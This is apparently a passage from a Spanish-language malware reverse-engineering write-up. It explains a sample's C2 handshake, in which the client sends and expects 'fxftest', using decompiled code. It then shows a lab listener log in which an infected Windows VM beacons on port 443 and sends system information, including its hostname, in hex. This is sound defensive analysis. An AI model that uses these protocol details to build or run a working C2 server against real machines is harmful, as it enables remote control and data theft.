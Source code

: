 ![Conexion TCP-3](../analisis-estatico/capturas/conexion-tcp3.png)


**1) Handshake “fxftest”:**
- Prepara el literal "fxftest" en local_24 y calcula su longitud incluyendo el \0 (lo hace con ese truco de uVar7 = 0xffffffff → ~uVar7 - 1 = strlen+1).
- send(sock, "fxftest\0", 8, 0) → Ordinal_19(DAT_0040aa80, local_24, ~uVar7 - 1, 0).
- recv(sock, buf, 8, 0) → Ordinal_16(DAT_0040aa80, local_1c, 8, 0).
- strncmp(buf, "fxftest", 7) → si coincide, entra en el bucle de órdenes; si no, corta.

👉 Conclusión: el servidor C2 debe devolver exactamente 8 bytes 66 78 66 74 65 73 74 00 (“fxftest\0”) tras recibir el “hello” o el cliente no continúa.  
**✔️ Conclusión 3 (frecuentísima):** si el servidor no responde inmediatamente con los primeros 7 bytes = “fxftest”, el cliente lo considera handshake inválido y corta.

Vemos desde el host C2 la comunicación con la MV windows infectada:
```
remnux@remnux:~/Desktop$ sudo python3 listener.py 
[*] Escuchando en 0.0.0.0:443

[+] 2025-08-15 10:57:36 Conexión de 10.0.0.4:49686
    [*] Recibido hello (7): b'fxftest'
    [*] Enviado handshake/opcode: HEX:66 78 66 74 65 73 74 00 01 00 00 00
    [*] Sysinfo (512):
        HEX: 31 30 2e 30 2e 30 2e 34 00 01 00 00 d8 f9 19 00 e4 04 00 00 00 00 00 00 00 00 00 00 e4 04 00 00 48 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 68 02 28 02 28 02 28 02 28 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 48 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 84 02 84 02 84 02 84 02 84 02 84 02 84 02 84 02 84 02 84 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 81 03 81 03 81 03 81 03 81 03 81 03 01 03 01 03 01 03 01 03 01 03 01 03 01 03 01 03 01 03 24 fc 19 00 f2 71 ac 77 db 8c ac 77 d4 ba f8 6c 00 00 51 00 40 04 00 00 c0 fc 19 00 10 02 10 02 10 02 82 03 82 03 82 03 82 03 82 03 82 03 02 03 02 03 02 03 48 00 00 48 02 03 02 03 02 03 02 03 44 45 53 4b 54 4f 50 2d 43 54 51 51 48 47 54 00 02 03 02 03 ff 04 00 fb 10 02 10 02 10 02 20 02 00 02 20 02 10 02 02 03 10 02 10 02 10 02 10 02 00 02 10 02 01 03 10 02 01 03 20 02 01 03 20 02 20 02 10 02 2e 04 00 00 76 04 00 00 10 02 10 02 f0 87 52 00 02 03 10 02 87 00 00 00 8a fb ff ff 48 02 10 02 10 02 10 02 3a 93 51 00 10 02 10 02 10 02 10 02 12 03 10 02 10 02 30 02 10 02 10 02 10 02 10 02 14 02 14 02 76 04 00 00 10 02 10 02 00 00 51 00 12 03 10 02 10 02 10 02 ff 07 00 00 ff 04 00 00 c0 00 51 00 e8 a2 51 00 01 03 01 03 01 03 01 03 00 00 00 00 00 00 00 00 01 03 01 03 89 00 00 00 01 03 01 03 01 03 01 03 76 04 00 00 01 03 01 03 7f 04 00 00 00 00 00 00 01 03 02 03 98 6d 52 00 48 04 00 00 02 03 02 03 02 03 02 03 c0 00 51 00 00 00 51 00 02 00 2c 00 01 00 00 00
```